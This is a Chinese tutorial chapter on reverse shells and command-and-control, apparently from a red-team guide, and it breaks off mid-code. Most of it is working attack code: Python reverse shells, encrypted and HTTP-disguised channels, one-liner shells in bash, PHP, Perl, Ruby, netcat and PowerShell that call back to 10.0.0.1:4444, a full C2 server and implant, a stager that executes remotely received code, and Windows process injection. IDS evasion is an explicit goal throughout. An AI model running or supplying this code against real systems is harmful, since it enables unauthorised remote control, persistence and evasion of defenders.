



## 7. 反弹Shell与C2通信

反弹Shell（Reverse Shell）和C2（Command and Control，命令与控制）通信是渗透测试和红队操作中最核心的技术之一。理解其原理不仅帮助攻击者建立持久化访问通道，更重要的是让防御者能够识别、检测和阻断这些威胁。本章从底层原理出发，逐步构建从单次反弹Shell到完整C2通信框架的知识体系。

### 7.1 反弹Shell原理与架构

#### 7.1.1 正向Shell vs 反弹Shell

在理解反弹Shell之前，需要先区分两种Shell连接模式：

| 特性 | 正向Shell（Bind Shell） | 反弹Shell（Reverse Shell） |
|------|------------------------|---------------------------|
| 连接方向 | 攻击者 → 目标机 | 目标机 → 攻击者 |
| 监听端 | 目标机开放端口等待连接 | 攻击机开放端口等待连接 |
| 防火墙穿透 | 容易被入站规则拦截 | 利用出站规则通常更宽松 |
| NAT穿越 | 无法穿越NAT | 可穿越NAT |
| 典型场景 | 内网横向移动 | 外网渗透、DMZ突破 |



为什么反弹Shell更常用？现代企业网络的防火墙策略通常遵循"默认拒绝入站、允许出站"的原则。正向Shell需要目标机开放端口接受入站连接，极易被防火墙拦截。而反弹Shell由目标机主动发起出站连接，利用企业网络通常允许HTTP/HTTPS/DNS等出站流量的特点，更容易穿透防火墙。

#### 7.1.2 底层机制：文件描述符重定向

反弹Shell的核心原理是**文件描述符重定向**。Linux系统中，每个进程有三个标准I/O流：

| 文件描述符 | 名称 | 说明 |
|-----------|------|------|
| 0 | stdin | 标准输入 |
| 1 | stdout | 标准输出 |
| 2 | stderr | 标准错误 |

通过 `os.dup2()` 系统调用，可以将Socket连接的文件描述符复制到0、1、2，使得Shell进程的所有输入输出都通过网络Socket传输：

```text
进程启动 → Shell(/bin/bash)
    stdin(0)  ← dup2 → socket文件描述符
    stdout(1) → dup2 → socket文件描述符
    stderr(2) → dup2 → socket文件描述符
```

这意味着在Shell中执行的任何命令，其输入来自攻击者，输出发送给攻击者，完全等同于攻击者坐在目标机前操作终端。

### 7.2 基础反弹Shell实现

#### 7.2.1 最小化实现

```python
import socket
import subprocess
import os

def basic_reverse_shell(host, port):
    """最基础的反弹Shell实现"""
    # 1. 创建TCP Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    # 2. 将Socket文件描述符重定向到标准I/O
    os.dup2(s.fileno(), 0)  # stdin  → socket
    os.dup2(s.fileno(), 1)  # stdout → socket
    os.dup2(s.fileno(), 2)  # stderr → socket

    # 3. 启动交互式Shell
    subprocess.call(['/bin/bash', '-i'])
```

这段代码虽然只有十几行，但完整实现了反弹Shell的核心逻辑。`-i` 参数使bash以交互模式运行，提供完整的终端体验（包括命令提示符、Tab补全等）。

#### 7.2.2 带错误处理的生产级实现

```python
import socket
import subprocess
import os
import sys
import time

def robust_reverse_shell(host, port, retry_interval=5, max_retries=0):
    """
    带重连和错误处理的反弹Shell

    Args:
        host: 攻击机IP地址
        port: 攻击机监听端口
        retry_interval: 重试间隔（秒）
        max_retries: 最大重试次数，0表示无限重试
    """
    retries = 0

    while max_retries == 0 or retries < max_retries:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(10)  # 连接超时10秒
            s.connect((host, port))
            s.settimeout(None)  # 连接成功后取消超时

            os.dup2(s.fileno(), 0)
            os.dup2(s.fileno(), 1)
            os.dup2(s.fileno(), 2)

            # 重置重试计数（连接成功后）
            retries = 0

            subprocess.call(['/bin/bash', '-i'])

        except socket.timeout:
            pass
        except ConnectionRefusedError:
            pass
        except OSError:
            pass
        finally:
            try:
                s.close()
            except Exception:
                pass

        retries += 1
        time.sleep(retry_interval)
```

这个版本解决了基础版本的关键问题：当攻击机的监听端尚未启动、网络中断、或Shell进程意外退出时，它会自动重连，保证持久性。

#### 7.2.3 Windows平台反弹Shell

```python
import socket
import subprocess
import os

def windows_reverse_shell(host, port):
    """Windows平台反弹Shell"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    # Windows使用cmd.exe或powershell.exe
    # 使用subprocess.Popen获得双向通信
    proc = subprocess.Popen(
        ['cmd.exe'],
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
        shell=True
    )

    # 非阻塞模式下双向转发数据
    import select
    import threading

    def receive_commands():
        """从Socket接收命令并写入进程stdin"""
        while True:
            data = s.recv(4096)
            if not data:
                break
            proc.stdin.write(data)
            proc.stdin.flush()

    def send_output():
        """读取进程stdout并发送到Socket"""
        while True:
            output = proc.stdout.read(4096)
            if not output:
                break
            s.send(output)

    t1 = threading.Thread(target=receive_commands, daemon=True)
    t2 = threading.Thread(target=send_output, daemon=True)
    t1.start()
    t2.start()
    t1.join()
    t2.join()
```

Windows平台与Linux的关键差异在于：Windows没有 `os.dup2()` 直接重定向到 `cmd.exe` 的效果，需要通过 `subprocess.Popen` 手动建立双向管道，用线程分别处理命令输入和输出回传。

### 7.3 加密反弹Shell

未加密的反弹Shell流量在网络层完全明文，任何IDS/IPS（入侵检测/防御系统）都能通过深度包检测（DPI）轻松识别。加密是绕过流量检测的第一步。

#### 7.3.1 SSL/TLS加密Shell

```python
import socket
import subprocess
import os
import ssl

def ssl_reverse_shell(host, port):
    """
    使用SSL/TLS加密的反弹Shell

    流量特征：与正常HTTPS流量类似，难以被DPI识别
    """
    # 创建SSL上下文
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    # 生产环境中应使用自签名证书并设置verify
    # 这里为兼容性禁用验证（渗透测试场景）
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    # 可选：加载自定义CA证书
    # context.load_verify_locations('ca-cert.pem')

    # 创建底层Socket并包装为SSL
    raw_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ssl_sock = context.wrap_socket(raw_sock, server_hostname=host)
    ssl_sock.connect((host, port))

    os.dup2(ssl_sock.fileno(), 0)
    os.dup2(ssl_sock.fileno(), 1)
    os.dup2(ssl_sock.fileno(), 2)

    subprocess.call(['/bin/bash', '-i'])
```

攻击机端对应的监听代码（使用自签名证书）：

```python
import ssl
import socket

def ssl_listener(host, port, certfile='server.pem', keyfile='server.key'):
    """
    SSL/TLS反弹Shell监听端

    生成自签名证书：
    openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.pem \
        -days 365 -nodes -subj '/CN=shell'
    """
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile=certfile, keyfile=keyfile)

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind((host, port))
        sock.listen(1)
        print(f'[*] SSL监听 {host}:{port}')

        conn, addr = sock.accept()
        ssl_conn = context.wrap_socket(conn, server_side=True)
        print(f'[+] 已连接: {addr}')

        try:
            while True:
                cmd = input('shell> ')
                if cmd.strip() == '':
                    continue
                ssl_conn.sendall(cmd.encode() + b'\n')
                response = ssl_conn.recv(4096).decode(errors='replace')
                print(response, end='')
        except (KeyboardInterrupt, EOFError):
            print('\n[*] 关闭连接')
            ssl_conn.close()
```

#### 7.3.2 AES加密Shell（自定义协议）

当需要更强的隐蔽性或自定义协议时，可以实现基于AES的加密通信：

```python
import socket
import subprocess
import os
import struct
import hashlib
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes

class EncryptedShell:
    """
    AES-256-CBC加密反弹Shell

    协议格式：[4字节长度][16字节IV][加密数据][16字节TAG]
    """

    def __init__(self, host, port, password):
        self.host = host
        self.port = port
        # 使用PBKDF2派生密钥，避免明文密码传输
        self.key = hashlib.pbkdf2_hmac(
            'sha256',
            password.encode(),
            b'shell_salt_v1',  # 生产环境应使用随机salt
            iterations=100000
        )  # 32字节 = AES-256

    def encrypt(self, plaintext):
        """加密数据"""
        iv = get_random_bytes(16)
        cipher = AES.new(self.key, AES.MODE_GCM, nonce=iv)
        ciphertext, tag = cipher.encrypt_and_digest(plaintext)
        return iv + ciphertext + tag

    def decrypt(self, data):
        """解密数据"""
        iv = data[:16]
        tag = data[-16:]
        ciphertext = data[16:-16]
        cipher = AES.new(self.key, AES.MODE_GCM, nonce=iv)
        return cipher.decrypt_and_verify(ciphertext, tag)

    def send_msg(self, sock, data):
        """发送带长度前缀的消息"""
        encrypted = self.encrypt(data)
        length = struct.pack('!I', len(encrypted))
        sock.sendall(length + encrypted)

    def recv_msg(self, sock):
        """接收带长度前缀的消息"""
        length_data = sock.recv(4)
        if not length_data:
            return None
        length = struct.unpack('!I', length_data)[0]
        encrypted = b''
        while len(encrypted) < length:
            chunk = sock.recv(length - len(encrypted))
            if not chunk:
                return None
            encrypted += chunk
        return self.decrypt(encrypted)

    def connect(self):
        """建立加密连接并启动Shell"""
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((self.host, self.port))

        # 使用加密通信替代直接文件描述符重定向
        import select
        import threading

        proc = subprocess.Popen(
            ['/bin/bash', '-i'],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE
        )

        def forward_output():
            """读取Shell输出，加密后发送"""
            while proc.poll() is None:
                # 非阻塞读取
                ready, _, _ = select.select([proc.stdout, proc.stderr], [], [], 0.1)
                for f in ready:
                    data = f.read(4096)
                    if data:
                        self.send_msg(s, data)

        def receive_commands():
            """接收加密命令，写入Shell"""
            while True:
                try:
                    data = self.recv_msg(s)
                    if data is None:
                        break
                    proc.stdin.write(data)
                    proc.stdin.flush()
                except Exception:
                    break

        t1 = threading.Thread(target=forward_output, daemon=True)
        t2 = threading.Thread(target=receive_commands, daemon=True)
        t1.start()
        t2.start()
        t1.join()
        t2.join()
```

自定义加密协议的优势在于：流量模式完全不同于标准协议，IDS/IPS无法通过已知签名匹配。但也因此可能引起"未知协议"告警，需要配合流量伪装（见7.3.3节）。

#### 7.3.3 流量伪装技术

单纯加密不够，还需要让流量"看起来"像正常业务流量：

```python
import socket
import ssl
import random
import time

class CovertChannel:
    """
    HTTP伪装通道 —— 将Shell数据封装在HTTP请求/响应中

    看起来像正常的Web API调用，实际承载Shell数据
    """

    def __init__(self, host, port):
        self.host = host
        self.port = port

    def connect(self):
        context = ssl.create_default_context()
        context.check_hostname = False
        context.verify_mode = ssl.CERT_NONE

        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.conn = context.wrap_socket(sock, server_hostname=self.host)
        self.conn.connect((self.host, self.port))

    def send_command(self, cmd):
        """封装为HTTP POST请求"""
        # 随机化请求头，模拟真实浏览器
        user_agents = [
            'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
            'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15',
        ]

        encoded_cmd = cmd.encode().hex()  # 十六进制编码
        body = f'{{"data":"{encoded_cmd}"}}'

        request = (
            f'POST /api/v1/telemetry HTTP/1.1\r\n'
            f'Host: {self.host}\r\n'
            f'User-Agent: {random.choice(user_agents)}\r\n'
            f'Content-Type: application/json\r\n'
            f'Content-Length: {len(body)}\r\n'
            f'Accept: application/json\r\n'
            f'\r\n'
            f'{body}'
        )
        self.conn.sendall(request.encode())

    def recv_response(self):
        """解析HTTP响应，提取Shell输出"""
        response = self.conn.recv(65536).decode()
        # 从HTTP响应体中提取数据
        if '\r\n\r\n' in response:
            body = response.split('\r\n\r\n', 1)[1]
            # 解析JSON响应体中的data字段
            import json
            try:
                data = json.loads(body)
                return bytes.fromhex(data.get('data', ''))
            except (json.JSONDecodeError, ValueError):
                return body.encode()
        return b''
```

常见的流量伪装策略：

| 伪装目标 | 实现方式 | 隐蔽性 | 实现复杂度 |
|---------|---------|--------|-----------|
| HTTP/HTTPS | 封装在REST API请求中 | 高 | 中 |
| DNS | 数据编码在DNS查询/响应中 | 极高 | 高 |
| WebSocket | 利用WebSocket双向通信 | 高 | 中 |
| ICMP | 数据编码在ICMP载荷中 | 极高 | 高 |
| 正常文件传输 | 伪装成FTP/SFTP会话 | 中 | 低 |

### 7.4 跨语言反弹Shell

实际渗透中，目标机可能没有安装Python，或存在应用白名单限制。需要掌握多种语言的反弹Shell实现。

#### 7.4.1 Bash原生反弹Shell

```bash
# 最经典的一行反弹Shell
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

# 原理分解：
# bash -i          交互式Shell
# >& /dev/tcp/...  将stdout和stderr重定向到TCP设备
# 0>&1             将stdin重定向到stdout（即也指向TCP）
```

#### 7.4.2 Python一行式反弹Shell

```python
# Python3一行式
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'

# Python2一行式（略有差异）
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

#### 7.4.3 其他语言一行式

```bash
# PHP
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

# Perl
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat（传统版本）
nc -e /bin/bash 10.0.0.1 4444

# Netcat（无-e参数版本，更常见）
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.0.1 4444 >/tmp/f

# PowerShell (Windows)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### 7.5 C2（Command and Control）通信架构

单次反弹Shell是基础，但实际红队操作需要一个完整的C2框架来管理多个目标、维护持久化通信、支持任务调度和数据回传。

#### 7.5.1 C2架构模式



| 架构模式 | 优点 | 缺点 | 适用场景 |
|---------|------|------|---------|
| 集中式 | 简单、管理方便 | 单点故障、易被追踪 | 小规模测试 |
| 分布式（带重定向器） | 隐藏真实C2、容错 | 架构复杂、成本高 | 红队行动 |
| P2P | 无中心节点、高弹性 | 实现复杂、调试困难 | 长期持久化 |
| 域前置（Domain Fronting） | 利用CDN、极难阻断 | 依赖第三方CDN | 高级对抗 |

#### 7.5.2 Python C2服务器实现

```python
import socket
import threading
import json
import time
import ssl
import uuid
from datetime import datetime

class C2Server:
    """
    纯Python实现的C2服务器

    功能：
    - 多客户端同时连接管理
    - 命令下发与结果回传
    - 心跳检测与离线通知
    - SSL/TLS加密通信
    """

    def __init__(self, host='0.0.0.0', port=443, certfile=None, keyfile=None):
        self.host = host
        self.port = port
        self.clients = {}  # {client_id: {'conn': socket, 'info': {...}, 'last_seen': timestamp}}
        self.lock = threading.Lock()
        self.running = False

        # SSL配置
        if certfile and keyfile:
            self.ssl_context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
            self.ssl_context.load_cert_chain(certfile, keyfile)
        else:
            self.ssl_context = None

    def start(self):
        """启动C2服务器"""
        self.running = True
        server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server.bind((self.host, self.port))
        server.listen(128)
        server.settimeout(1.0)  # 允许检查self.running

        print(f'[*] C2服务器启动于 {self.host}:{self.port}')

        # 启动心跳检测线程
        heartbeat_thread = threading.Thread(
            target=self._heartbeat_checker, daemon=True
        )
        heartbeat_thread.start()

        while self.running:
            try:
                conn, addr = server.accept()
                if self.ssl_context:
                    conn = self.ssl_context.wrap_socket(conn, server_side=True)
                client_thread = threading.Thread(
                    target=self._handle_client,
                    args=(conn, addr),
                    daemon=True
                )
                client_thread.start()
            except socket.timeout:
                continue
            except Exception as e:
                print(f'[!] 接受连接异常: {e}')

        server.close()

    def _handle_client(self, conn, addr):
        """处理单个客户端连接"""
        client_id = str(uuid.uuid4())[:8]
        # 接收客户端注册信息
        try:
            reg_data = self._recv_msg(conn)
            info = json.loads(reg_data.decode()) if reg_data else {}
        except Exception:
            info = {}

        with self.lock:
            self.clients[client_id] = {
                'conn': conn,
                'info': info,
                'addr': addr,
                'last_seen': datetime.now(),
                'pending_results': []
            }

        os_info = info.get('os', 'unknown')
        hostname = info.get('hostname', 'unknown')
        print(f'[+] 新客户端上线: {client_id} ({hostname}@{os_info}) from {addr}')

        # 持续接收客户端回传数据
        while self.running:
            try:
                data = self._recv_msg(conn)
                if data is None:
                    break
                with self.lock:
                    self.clients[client_id]['last_seen'] = datetime.now()
                    self.clients[client_id]['pending_results'].append(
                        data.decode(errors='replace')
                    )
            except Exception:
                break

        # 客户端断开
        with self.lock:
            if client_id in self.clients:
                del self.clients[client_id]
        print(f'[-] 客户端离线: {client_id}')
        conn.close()

    def send_command(self, client_id, command):
        """向指定客户端发送命令"""
        with self.lock:
            if client_id not in self.clients:
                return False
            conn = self.clients[client_id]['conn']
        try:
            self._send_msg(conn, command.encode())
            return True
        except Exception:
            return False

    def broadcast(self, command):
        """向所有客户端广播命令"""
        results = {}
        with self.lock:
            client_ids = list(self.clients.keys())
        for cid in client_ids:
            results[cid] = self.send_command(cid, command)
        return results

    def get_results(self, client_id):
        """获取客户端回传结果"""
        with self.lock:
            if client_id not in self.clients:
                return []
            results = self.clients[client_id]['pending_results']
            self.clients[client_id]['pending_results'] = []
            return results

    def list_clients(self):
        """列出所有在线客户端"""
        with self.lock:
            clients = []
            for cid, info in self.clients.items():
                clients.append({
                    'id': cid,
                    'addr': info['addr'],
                    'info': info['info'],
                    'last_seen': info['last_seen'].isoformat()
                })
            return clients

    def _heartbeat_checker(self):
        """心跳检测：标记超时客户端"""
        while self.running:
            time.sleep(30)
            now = datetime.now()
            with self.lock:
                for cid in list(self.clients.keys()):
                    last = self.clients[cid]['last_seen']
                    if (now - last).seconds > 90:
                        print(f'[!] 客户端 {cid} 心跳超时')

    def _send_msg(self, sock, data):
        """发送带4字节长度前缀的消息"""
        import struct
        length = struct.pack('!I', len(data))
        sock.sendall(length + data)

    def _recv_msg(self, sock):
        """接收带4字节长度前缀的消息"""
        import struct
        length_data = sock.recv(4)
        if not length_data or len(length_data) < 4:
            return None
        length = struct.unpack('!I', length_data)[0]
        data = b''
        while len(data) < length:
            chunk = sock.recv(length - len(data))
            if not chunk:
                return None
            data += chunk
        return data
```

#### 7.5.3 C2客户端（Agent/Implant）

```python
import socket
import subprocess
import os
import platform
import json
import struct
import time
import threading

class C2Agent:
    """
    C2客户端 Agent

    功能：
    - 自动注册到C2服务器
    - 执行远程命令并回传结果
    - 定期心跳保活
    - 自动重连机制
    """

    def __init__(self, server_host, server_port, ssl_mode=True):
        self.server_host = server_host
        self.server_port = server_port
        self.ssl_mode = ssl_mode
        self.running = False

    def gather_system_info(self):
        """收集目标机系统信息用于注册"""
        return {
            'hostname': platform.node(),
            'os': platform.system(),
            'os_version': platform.version(),
            'arch': platform.machine(),
            'python': platform.python_version(),
            'uid': os.getuid() if hasattr(os, 'getuid') else -1,
            'cwd': os.getcwd(),
            'pid': os.getpid()
        }

    def connect(self):
        """连接到C2服务器"""
        while True:
            try:
                sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

                if self.ssl_mode:
                    import ssl
                    context = ssl.create_default_context()
                    context.check_hostname = False
                    context.verify_mode = ssl.CERT_NONE
                    sock = context.wrap_socket(sock, server_hostname=self.server_host)

                sock.connect((self.server_host, self.server_port))

                # 注册
                reg_info = json.dumps(self.gather_system_info())
                self._send_msg(sock, reg_info.encode())

                self.running = True
                self._session_loop(sock)

            except (ConnectionRefusedError, ConnectionResetError, OSError):
                pass
            except Exception:
                pass

            # 断线重连，随机间隔避免特征
            time.sleep(10 + (time.time() % 20))

    def _session_loop(self, sock):
        """主会话循环：接收命令 → 执行 → 回传结果"""
        # 启动心跳线程
        heartbeat = threading.Thread(
            target=self._heartbeat, args=(sock,), daemon=True
        )
        heartbeat.start()

        while self.running:
            try:
                data = self._recv_msg(sock)
                if data is None:
                    break

                command = data.decode().strip()

                # 内置命令处理
                if command == 'exit':
                    self.running = False
                    break
                elif command.startswith('cd '):
                    target_dir = command[3:].strip()
                    try:
                        os.chdir(target_dir)
                        result = f'已切换到: {os.getcwd()}'
                    except FileNotFoundError:
                        result = f'目录不存在: {target_dir}'
                elif command == 'sysinfo':
                    result = json.dumps(self.gather_system_info(), indent=2)
                else:
                    # 执行系统命令
                    result = self._exec_command(command)

                self._send_msg(sock, result.encode())

            except (ConnectionResetError, BrokenPipeError):
                break
            except Exception as e:
                try:
                    self._send_msg(sock, f'错误: {str(e)}'.encode())
                except Exception:
                    break

    def _exec_command(self, command, timeout=60):
        """执行系统命令并返回结果"""
        try:
            # 根据操作系统选择Shell
            if platform.system() == 'Windows':
                shell_cmd = ['cmd.exe', '/c', command]
            else:
                shell_cmd = ['/bin/bash', '-c', command]

            proc = subprocess.run(
                shell_cmd,
                capture_output=True,
                timeout=timeout,
                text=True
            )
            output = proc.stdout + proc.stderr
            if not output:
                output = '[命令执行完成，无输出]'
            return output

        except subprocess.TimeoutExpired:
            return f'[命令超时: {timeout}秒]'
        except Exception as e:
            return f'[执行异常: {str(e)}]'

    def _heartbeat(self, sock):
        """定期发送心跳包"""
        while self.running:
            try:
                # 心跳包是一个空的长度为0的消息
                self._send_msg(sock, b'')
            except Exception:
                self.running = False
                break
            time.sleep(30)

    def _send_msg(self, sock, data):
        length = struct.pack('!I', len(data))
        sock.sendall(length + data)

    def _recv_msg(self, sock):
        length_data = sock.recv(4)
        if not length_data or len(length_data) < 4:
            return None
        length = struct.unpack('!I', length_data)[0]
        if length == 0:
            return b''  # 心跳包
        data = b''
        while len(data) < length:
            chunk = sock.recv(length - len(data))
            if not chunk:
                return None
            data += chunk
        return data

if __name__ == '__main__':
    agent = C2Agent('10.0.0.1', 443, ssl_mode=True)
    agent.connect()
```

### 7.6 高级C2技术

#### 7.6.1 分阶段载荷投递

实际操作中，初始载荷（Stager）应尽可能小，后续功能通过分阶段加载（Staging）投递：

```python
# === Stage 0: 最小化Stager ===
# 仅负责建立连接并接收Stage 1
# 目标：最小化被检测的概率

import socket
import struct

def stage0_stager(host, port):
    """最小化Stager —— 仅建立连接并加载下一阶段"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    # 接收Stage 1的长度
    length = struct.unpack('!I', s.recv(4))[0]

    # 接收Stage 1的代码
    code = b''
    while len(code) < length:
        code += s.recv(length - len(code))

    # 执行Stage 1（Python字节码）
    exec(compile(code, '<stage1>', 'exec'))


# === Stage 1: 完整功能Agent ===
# 由Stager加载后执行，包含完整的C2通信逻辑

def stage1_full_agent(sock):
    """完整的Agent功能，由Stager动态加载"""
    import subprocess
    import os
    import json
    import platform

    # 此时sock已经由Stage 0建立连接

    def send_msg(data):
        length = struct.pack('!I', len(data))
        sock.sendall(length + data)

    def recv_msg():
        length = struct.unpack('!I', sock.recv(4))[0]
        data = b''
        while len(data) < length:
            data += sock.recv(length - len(data))
        return data

    # 发送系统信息
    info = {
        'hostname': platform.node(),
        'os': platform.system(),
        'uid': os.getuid() if hasattr(os, 'getuid') else -1,
        'cwd': os.getcwd()
    }
    send_msg(json.dumps(info).encode())

    # 主循环
    while True:
        cmd = recv_msg().decode()
        if cmd == 'exit':
            break
        try:
            result = subprocess.run(
                ['/bin/bash', '-c', cmd],
                capture_output=True, timeout=30, text=True
            )
            send_msg((result.stdout + result.stderr).encode())
        except Exception as e:
            send_msg(str(e).encode())
```

分阶段投递的优势：

| 阶段 | 大小 | 功能 | 检测难度 |
|------|------|------|---------|
| Stage 0 (Stager) | < 200字节 | 建立连接、接收下一阶段 | 极难（代码极少） |
| Stage 1 (Agent) | 动态 | 完整C2功能 | 较难（运行时加载，不在磁盘上） |

#### 7.6.2 进程注入与迁移

当初始Shell的宿主进程可能被关闭时（如用户关闭浏览器），需要将Shell迁移到稳定进程中：

```python
import ctypes
import ctypes.wintypes
import os

class ProcessInjector:
    """
    Windows进程注入工具

    仅用于授权渗透测试，将代码注入到目标进程中运行
    """

    # Windows API常量
    PROCESS_ALL_ACCESS = 0x1F0FFF
    MEM_COMMIT = 0x1000
    MEM_RESERVE = 0x2000
    PAGE_EXECUTE_READWRITE = 0x40

    def __init__(self):
        self.kernel32 = ctypes.windll.kernel32

    def inject_dll(self, pid, dll_path):
        """DLL注入"""
        # 打开目标进程
        h_process = self.kernel32.OpenProcess(
            self.PROCESS_ALL_ACCESS, False, pid
        )
        if not h_process:
            raise Exception(f'无法打开进程 PID={pid}')

        # 在目标进程中分配内存
        dll_path_bytes = dll_path.encode('utf-16-le') + b'\x00\x00'
        arg_address = self.kernel32.VirtualAllocEx(
            h_process, 0, len(dll_path_bytes),
            self.MEM_COMMIT | self.MEM_RESERVE,
            self.PAGE_EXECUTE_READWRITE
        )

        # 写入DLL路径
        written = ctypes.c_size_t(0)
        self.kernel32.WriteProcessMemory(
            h_process, arg_address,
            dll_path_bytes, len(dll_path_bytes),
            ctypes.byref(written)
        )

        # 创建远程线程加载DLL
        h_thread = self.kernel32.CreateRemoteThread(
            h_process, None, 0,
            ctypes.cast(
                ctypes.windll.kernel32.LoadLibraryW,
                ctypes.c_void_p
            ),
            arg_address, 0, None
        )

        # 清理
        self.kernel32.CloseHandle(h_thread)
        self.kernel32.CloseHandle(h_process)

    def migrate_process(self, target_pid, shellcode):
        """进程迁移 —— 将Shell转移到新进程中"""
        h_process = self.kernel32.OpenProcess(
            self.PROCESS_ALL_ACCESS, False, target_pid
        )

        # 分配可执行内存
        shellcode_addr = self.kernel32.VirtualAllocEx(
            h_process, 0, len(shellcode),
            self.MEM_COMMIT | self.MEM_RESERVE,
            self.PAGE_EXECUTE_READWRITE
        )

        # 写入Shellcode
        written = ctypes.c_size_t(0)
        self.kernel32.WriteProcessMemory(
            h_process, shellcode_addr,
            shellcode, len(shellcode),
            ctypes.byref(written)
        )

        # 执行Shellcode
        h_thread = self.kernel32.CreateRemoteThread(
            h_process, None, 0,
            shellcode_addr, None, 0, None
        )

        self.kernel32.CloseHandle(h_thread)
        self.kernel32.CloseHandle(h_process)
```

Linux平台的等价技术是 `ptrace` 注入和 `/proc/[pid]/mem` 写入，原理类似但API不同。

#### 7.6.3 通信协议与心跳机制

健壮的C2通信需要处理多种网络异常：

```python
import time
import random
import struct

class CommunicationManager:
    """
    C2通信管理器

    实现智能心跳、抖动（Jitter）、超时重连等机制
    """

    def __init__(self, base_interval=60, jitter=0.3):
        """
        Args:
            base_interval: 基础心跳间隔（秒）
            jitter: 抖动比例，0.3表示±30%的随机偏移
        """
        self.base_interval = base_interval
        self.jitter = jitter

    def get_sleep_time(self):
        """计算带抖动的休眠时间"""
        variation = self.base_interval * self.jitter
        return self.base_interval + random.uniform(-variation, variation)

    def checkin_loop(self, conn, callback):
        """
        主check-in循环

        - 每隔 base_interval±jitter 秒向C2服务器请求任务
        - 有任务则执行并回传
        - 无任务则继续休眠
        """
        while True:
            try:
